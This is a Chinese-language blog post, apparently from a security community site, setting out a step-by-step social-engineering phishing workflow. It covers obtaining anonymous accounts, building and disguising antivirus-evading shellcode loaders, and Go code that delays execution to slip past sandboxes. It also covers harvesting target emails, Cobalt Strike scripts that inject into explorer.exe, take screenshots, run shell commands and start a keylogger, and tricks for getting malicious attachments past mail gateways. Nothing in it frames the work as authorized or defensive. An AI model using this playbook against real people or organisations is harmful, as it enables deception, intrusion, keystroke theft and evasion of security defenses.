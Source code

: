 

# 社工钓鱼基本流程 - 先知社区

社工钓鱼基本流程



## 前言

穷则社工钓鱼，达则 0day 炸场 - 微步在线，借用微步公众号的一句话，没有后端资源支持的情况下，社工钓鱼必学技能，毕竟正面打不动，代码审不动，0day 又没有是日常，下文讲解自己对于社工钓鱼的思路。

## 社交账号

准备一些社交账号，如微信、QQ、脉脉、BOSS 直聘、猎聘，手机号可以购买阿里小号/和多号。其中微信可以用辅助注册或者阿里小号/和多号注册，如果你有匿名的渠道购买更好。  
[![](assets/1701606989-0667100d9daf51fc3d506a1668642d83.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922220656-4a0b5402-5951-1.png)  
[![](assets/1701606989-36e1789ed8dc4b7c630fb755452a6415.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922220746-6793a75e-5951-1.png)

邮箱方面，一般常用 QQ 邮箱、163 邮箱，这些目前还是有渠道可以购买的，没钱或者担心购买不可靠，跟身边亲朋好友借也行。  
[![](assets/1701606989-83af0284c0ecb541cb33a92acfc587df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922221336-38ac2708-5952-1.png)

## 免杀马

免杀的马子是必备的，如果你是和我一样的免杀弟弟，我推荐先学习 shellcode loader 的一些编写思路  
[ShellcodeLoader](https://github.com/xf555er/ShellcodeLoader)  
[![](assets/1701606989-bbb05a5f8c450b8a04134ab09bbe4294.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922221908-fe227f14-5952-1.png)  
基本加载器思路为 shellcode 申请内存 (可读可写) -> 载入内存 -> 执行内存

*   申请内存：VirtualAlloc
*   载入内存：memcpy
*   执行内存：CreateThread WaitForSingleObject  
    针对这三个过程可以使用不同的函数来达到规避杀软的效果，例如申请内存还可以用 GlobalAlloc、CoTaskMemAlloc 函数，执行内存可以用回调函数 EnumFontsW、EnumUILanguages、EnumFontFamiliesA。  
    [![](assets/1701606989-1c29c2fa8657c0007553a1640aa69485.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20230922222934-73c8c0d8-5954-1.gif)

主要还是查文档自己多动手，学完就算不会写免杀马，改改别人 GitHub 的马子，过国内 360 火绒基本没问题，然后就是研究下捆绑 exe 释放正常文件，搞不懂直接给马子弹个框文件已损坏，无法打开也行，不然经常出现对方问你这文件怎么打不开...  
[![](assets/1701606989-86b69fe67ed300b319c9c6babdbc7520.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923083914-9ef6c0c0-59a9-1.png)

平时钓鱼的马子经常要改图标加签名之类的，推荐如下项目，在原项目[360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)的基础上，进行修改增加签名功能。[360QVM\_bypass-public](https://github.com/S9MF/my_script_tools/blob/main/360QVM_bypass-public/README.md)  
[![](assets/1701606989-9fab0ef0ccc550beda0c2171d78cc9a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922223436-27686bb6-5955-1.png)

## bypass 沙箱

为了延长马子存活时间，基本的沙箱对抗少不了，毕竟有防守人员的话，你投递的木马基本都得沙箱走一走，以微步沙箱为例，最简单的循环打印。

使用 sleep 函数延迟执行容易被 hook，修改为 0，可以编写循环打印来延迟程序时间，来绕过沙箱检测，因为沙箱运行程序是有时间限制的。

```plain
//循环打印进行延时 运行 1m2s 后执行 shellcode 沙箱分析时间没那么久 可以绕过沙箱检测
func add() {
    start := time.Now() //获取当前时间
    //1000000  1m2.793228s
    sum, i := 0, 1
    for i < 1000000 {
        fmt.Println(i)
        sum += i
        i++
    }
    elapsed := time.Since(start)
    fmt.Println("该函数执行完成耗时：", elapsed)
}
```

将如上代码放在 shellcode 执行前就行。  
[![](assets/1701606989-30c567d3a6cd15f66850b9ae59b807ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923090122-b6a451e4-59ac-1.png)

## 信息收集

思维导图如下，每个人都有自己的思路，我就简单讲解几个。  
[![](assets/1701606989-1b763355e02371aa2612ee425f179b5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922223658-7bfbe9f0-5955-1.png)  
零零信安直接搜索公司名称，得到一些邮箱地址  
[![](assets/1701606989-7a27619af719003396eab64ab915e7f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922224813-0eb75b20-5957-1.png)

拿邮箱后缀 + 关键字去微信搜一搜，Google、百度等搜索引擎也可以搜，可以获取业务招聘相关邮箱信息、手机号等。  
如下组合：  
@xxx.com 招聘 @xxx.com 校招 @xxx.com 投标 @xxx.com 联系方式  
[![](assets/1701606989-d35f45893e1ce06e0b2761b21afae66f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922225408-e1d1b2f8-5957-1.png)

## C2 搭建准备

常用的就 cs，基本的套层 CDN 然后 c2 上线端口反代下，这里我会用到 cs 插件脚本  
[PushPlus2](https://github.com/S9MF/my_script_tools/blob/main/CS%E6%8F%92%E4%BB%B6/README.md)  
[![](assets/1701606989-ca5f9ca4417a8f4f45dd53bc03bb815f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923082747-05ae0528-59a8-1.png)  
常用的就是上线提醒、自动迁移进程

```plain
#自动迁移进程
    sub callback{
        $regex = '(.*\n)+explorer.exe\t\d+\t(\d+)(.*\n)+';
        # 要迁移的进程
        $listener = "ecloud";
        # 监听器名字，此处为ecloud，记得修改为自己的
        if ($2 ismatch $regex){
            $pid = matched()[1];
            $inject_pid = $pid;
            if (-is64 $1){
                $arch = "x64";
            }
            else{
                $arch = "x86";
            }
            binject($1, $pid, $listener, $arch);
        }
    }
    if($inject_pid != beacon_info($1,"pid")){
        bps($1, &callback);
    }
```

还有上线自动截图功能，就算目标掉了起码还有张图证明上线过

```plain
#只截一张图
    #binput($1, "screenshot");
    #bscreenshot($1);

    #连续截图
    binput($1, "screenwatch");
    bscreenwatch($1);
```

其他的上线自动执行 shell 命令、键盘记录看自己需求吧

```plain
#执行自定义 cmd 命令
    bshell($1, "ipconfig /all");
    #键盘记录
    bkeylogger($1);
```

还有其他需求可以去翻翻文档[Aggressor Script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/agressor_script.htm)

如果你有好用稳定的权限提升维持工具、如 Bypass UAC、以及计划任务、服务，可以考虑下写个 cs 脚本上线自动 bypass uac，加权限维持。

## 邮件网关/沙箱

默认对面有邮件网关/沙箱设备，针对邮件正文和附件要有一定处理或者技巧。

*   针对正文  
    不带知名公司名称如脉脉、BOSS 直聘不然容易被当成广告邮件，不把附件解密密码放在正文，容易被沙箱识别密码分析附件。
*   针对附件  
    文件名加密，解压密码写在附件名上。

## 开钓

通过之前的准备，我们已经有了一些可供尝试的信息，此时需要构建话术剧本然后去钓鱼。  
[![](assets/1701606989-b4a47a6f99db2a350512de5ff6dca110.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151306-a473b102-59e0-1.png)  
[![](assets/1701606989-7333c44d93676c58cf6f0d8a4f3fd97c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151227-8d9e1a26-59e0-1.png)

## 上线后的操作

参考 L33h0m 师傅的文章[分享我的 CS 钓鱼流程导图（权限维持 + 信息收集 + 后渗透阶段）](https://www.t00ls.com/articles-69037.html)  
[![](assets/1701606989-929edb01d470e4c7cd2ca29c1a0209df.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151510-eed5bdd0-59e0-1.gif)

## 总结

本文讲解了我对社工钓鱼的基本流程，偏向于思路，师傅们有其他思路欢迎在评论区留言，学习交流。

## 参考

[360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)  
[ShellcodeLoader](https://github.com/xf555er/ShellcodeLoader)  
[分享我的 CS 钓鱼流程导图（权限维持 + 信息收集 + 后渗透阶段）](https://www.t00ls.com/articles-69037.html)
